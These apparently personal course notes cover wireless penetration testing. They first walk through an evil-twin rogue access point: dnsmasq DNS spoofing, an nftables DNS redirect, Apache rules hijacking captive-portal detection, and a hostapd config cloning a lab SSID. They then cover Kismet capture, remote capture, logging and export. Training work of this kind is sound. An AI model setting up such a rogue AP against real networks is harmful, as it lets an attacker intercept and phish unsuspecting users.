ifconfig wlan1 up
always check using ifconfig
2. create dnsmasq for providing dhcp ip and dns server
gedit dnsmasq.conf
# Main options
# http://www.thekelleys.org.uk/dnsmasq/docs/dnsmasq-man.html
domain-needed
bogus-priv
no-resolv
filterwin2k
expand-hosts
domain=localdomain
local=/localdomain/
# Only listen on this address. When specifying an
# interface, it also listens on localhost.
# We don't want to interrupt any local resolution
# since the DNS responses will be spoofed
listen-address=192.168.1.1
# DHCP range
dhcp-range=192.168.1.100,192.168.1.199,12h
dhcp-lease-max=100
# We also need to do DNS spoofing3 so that the response for most DNS requests will point back to us with the exception of rare cases. We'll use dnsmasq again. To do this, we will append the following to the configuration file we just created.
# This should cover most queries
# We can add 'log-queries' to log DNS queries
address=/com/192.168.1.1
address=/org/192.168.1.1
address=/net/192.168.1.1
# Entries for Windows 7 and 10 captive portal detection
address=/dns.msftncsi.com/131.107.255.255
then start dnsmasq by running dnsmasq --conf-file=enterthefile.conf_path_here
to stop dsnmasq kill process of dnsmasq may refer /var/run/dasmasq.pid for reference
to check dnsmasq running successfuly
sudo tail /var/log/syslog | grep dnsmasq
netstat -lnp listening on port 53 and 67 i.e dns and dhcp
3. Sometimes clients ignore DNS settings provided in the DHCP lease, and we will use an nftables rule to force redirect all DNS requests (UDP to port 53 only--TCP port 53 is for zone transfer) back to our server.
sudo apt install nftables
sudo nft add table ip nat
sudo nft 'add chain nat PREROUTING { type nat hook prerouting priority dstnat; policy accept; }'
sudo nft add rule ip nat PREROUTING iifname "wlan1" udp dport 53 counter redirect to :53
4. In Apache's site configuration, we need to add mod_rewrite7 and mod_alias7:1 rules so that the captive portal is set properly. We'll add the following lines in /etc/apache2/sites-enabled/000-default.conf before the VirtualHost closing tag.
# Apple
RewriteEngine on
RewriteCond %{HTTP_USER_AGENT} ^CaptiveNetworkSupport(.*)$ [NC]
RewriteCond %{HTTP_HOST} !^192.168.1.1$
RewriteRule ^(.*)$ http://192.168.1.1/portal/index.php [L,R=302]
# Android
RedirectMatch 302 /generate_204 http://192.168.1.1/portal/index.htm
# Windows 7 and 10
RedirectMatch 302 /ncsi.txt http://192.168.1.1/portal/index.htm
RedirectMatch 302 /connecttest.txt http://192.168.1.1/portal/index.htm
# Catch-all rule to redirect other possible attempts
RewriteCond %{REQUEST_URI} !^/portal/ [NC]
RewriteRule ^(.*)$ http://192.168.1.1/portal/index.htm [L]
→ These additions will require two modules to be enabled. For the first four and the last three instructions, we need the redirect module. For the two "RedirectMatch" additions in-between, we need the alias module.
sudo a2enmod rewrite
Enabling module rewrite.
To activate the new configuration, you need to run:
systemctl restart apache2
kali@kali:~$ sudo a2enmod alias
Module alias already enabled
5. check portal using → firefox 127.0.0.1/portal/index.htm
6. Set up hostapd -conf d
We will be creating a 802.11n AP with the exact same SSID and channel as the AP we are targeting, but we won't be using any encryption.
interface=wlan0
ssid=MegaCorp One Lab
channel=11
# 802.11nho
hw_mode=g
ieee80211n=1
# Uncomment the following lines to use OWE instead of an open network
#wpa=2
#ieee80211w=2
#wpa_key_mgmt=OWE
#rsn_pairwise=CCMP
hostapd file.config
Kismet
Kismet is a versatilewireless capture tool.
It can capture data of different wireless technologies such as Wi-Fi, Bluetooth,2 and nRF3 signals, or it can use Software Defined Radio (SDR)4 to capture ADS-B,5 Automatic meter reading (AMR),6 433MHz,7 and more. For now, we will focus on its Wi-Fi capabilities.
Kismet captures raw wireless frames and decodes them to identify access points and devices on the network. When paired with a GPS8 device, Kismet also includes estimated geolocation data for the discovered devices.9 We can use this data to get a rough idea of where devices are in relation to access points.
There are a few ways we could familiarize ourselves with Kismet, but we'll begin with the configuration files.1 These can be found in /etc/kismet/.
kismet_80211.conf configures settings related to Wi-Fi.
kismet_alerts.conf configures Kismet's intrusion detection and alert subsystem. Kismet includes a Wireless Intrusion Detection System2 (WIDS), but we will not cover that particular functionality in this module.
kismet.conf is the master configuration file for Kismet.
kismet_filter.conf configures filtering rules for devices and packets.
kismet_httpd.conf configures Kismet's web server.
kismet_logging.conf configures how and where Kismet creates log files.
kismet_memory.conf configures Kismet's memory usage.
kismet_uav.conf contains rules for detecting unmanned aerial vehicles3 (UAV) and drones.
Output formats -- kismet(the default one), PcapPpi , PcapNg.
• kismet includes all the gathered data in sqlite DB -- contain multiple Data link packets - e.g wifi bluetooth mix etc.
• PcapPpi format is a legacy Pcap format --- only contain one Data link types packet
• PcapNg formatis the modern Pcap format. -- contain multiple Data link packets - e.g wifi bluetooth mix etc., also is more preferred because it allows us to use the results in other tools, such as Wireshark.
By default, Kismet creates log files in the current working directory. Let's change this to a centralized location in our override file. We will also change the log types to include PcapNg logs. The kismet log is useful, but as we mentioned previously, if we want to use the data from Kismet in other tools, we will want to log in the PcapNg format as well.
sudo mkdir /var/log/kismet
Next, we will create the kismet_site.conf file with our override settings for log_prefix to store data in the new directory and log_types to create log files in kismet and PcapNg formats.

Essentials
Installation :
sudo apt install kismet
Usage :-
kismet -c wlan0:channlels="4,5,6" --daemonize
-c : to specify our data source.
:channlels="4,5,6" - to limit the channels
--daemonize = to run in background
we can't scroll back through the output and search for anything we might have missed. We can disable this feature with the command line option --no-ncurses to get all output on new lines in the console.
sudo kismet -c wlan0 --no-ncurses
Web Interface :-
Kismet includes a webserver1 and a web UI that is accessible on localhost:2501 by default.
securing kismet web interface
By default, the Kismet web server listens on all interfaces, allowing for remote connections to the UI.
we can configure Kismet's web server to listen on our loopback interface by adding "httpd_bind_address=127.0.0.1" to our kismet_site.conf override file.
Killing Kismet process
Kismet remote
Kismet includes separate tools to capture data. When we run Kismet and specify a source, it will automatically use the appropriate tool. For example, when we run a capture on wlan0 on Kali, Kismet calls the kismet_cap_linux_wifi tool to handle the capture.
We can also call these tools directly to capture traffic locally and send the data to a Kismet server running on a remote host.
T
he server does not initiate the capture, but it listens for connections and processes the data. Kismet only allows connections from localhost by default.
We can use this functionality to capture Wi-Fi data on several smaller, cheaper devices and send the data to one centralized server for processing and retention.
T
o enable remote capture, we need to setup an SSH tunnel to the server or configure the remote instance of Kismet to listening on a specific network interface. We can do the latter by changing the
remote_capture_listen value to a specific interface in our override file.
E.g
1. sudo kismet
start kismet on local machine
2. ssh kali@192.168.62.192 -L 8000:localhost:3501
we will establish the SSH tunnel from kaliremote, our capturing instance, to our kali host. Since Kismet listens on localhost port 3501, we need to use port forwarding when we establish our SSH tunnel. We will use ssh with the -L flag to enable port forwarding so that port 8000 on kaliremote forwards to port 3501 on our kali host.
3. sudo kismet_cap_linux_wifi --connect 127.0.0.1:8000 --source=wlan0
After establishing an SSH tunnel, we will open a new terminal on kaliremote and start a data capture. Let's use kismet_cap_linux_wifi with the -- connect flag set to localhost:8000 and set our --source to wlan0 to use the local wireless network. Since we have forwarded port 8000 through our SSH tunnel to port 3501, kismet_cap_linux_wifi should send the data to our kali host.
At this point, the Kismet instance on kaliremote captures Wi-Fi data and sends it through the SSH tunnel to the Kismet server on our kali host.
Kismet logging
Log Files
We have already explored how to configure logging with an override file. We can also use several command line flags to control logging at runtime.
-T, --log-types <types> Override activated log types
-p, --log-prefix <prefix> Directory to store log files
-n, --no-logging Disable logging entirely
use the sqlite3 tool to interact with kismet files.
• The KISMET table contains the database version and which version of Kismet created the log file.
• The alerts table contains any alerts or WIDS issues.
• The data table contains records that are not packet related, such as SDR data.
• The datasources table contains information about the data sources used to capture data.
• The devices table contains information about the devices Kismet was able to identify.
• The messages table contains informational messages, such as those displayed in the console or web application.
• The packets table contains the raw packets captured by Kismet. The table can contain multiple DLTs.
• The snapshots table contains time-based information.
We can also run an SQLite query as a one liner by using sqlite3, specifying a log file, and then a query as one command.
sudo sqlite3 /var/log/kismet/Kismet-20200917-18-45-34-1.kismet "select type, devmac from devices;"
Reading log files
Kismet can use log files as a data source, including Pcap or PcapNg capture files. When reprocessing a file, Kismet attempts to replay through the file as fast as possible. We can throttle the processing with the pps and realtime options. These options are mutually exclusive.
e.g sudo kismet -c Documents/Network_Join_Nokia_Mobile.pcap:realtime=true
Exporting
Pcap
Even if we only have kismet log files, we can use the kismetdb_to_pcap1 tool to convert kismet logs to Pcap and PcapNg logs.
we must keep in mind that Kismet can capture multiple data types from multiple data sources. There are tools that cannot handle different data types within a PcapNg file.
Let's run kismetdb_to_pcap, specifying our kismet log file with --in, and using --list-datasources to get a list of data sources in that log file.
kismetdb_to_pcap --in Kismet-20200917-18-45-34-1.kismet --out sample.pcapng --verbose
Now that we have a PcapNg file, we could open it in Wireshark or other tools for further processing and analysis.
JSON
We can convert kismet log files to JSON format using the
kismetdb_dump_devices1 tool.
Let's try it out. We'll use
kismetdb_dump_devices
, use the
--in
flag to specify our kismet log file,
--out
to set our output file,
--skip-clean
to skip the SQL vacuum
2 command, and
--verbose
to enable verbose mode.
kismetdb_dump_devices --in /var/log/kismet/Kismet-20200917-17-45-17-1.kismet --out sample.json --skip-clean --verbose
Many of the Kismet export tools run the SQL VACUUM command to optimize the sqlite database before exporting data from it. This process involves rewriting the log file and therefore requires write access to the log file. If we do not have write access, we can run the export tool with sudo or using the --skip-clean flag.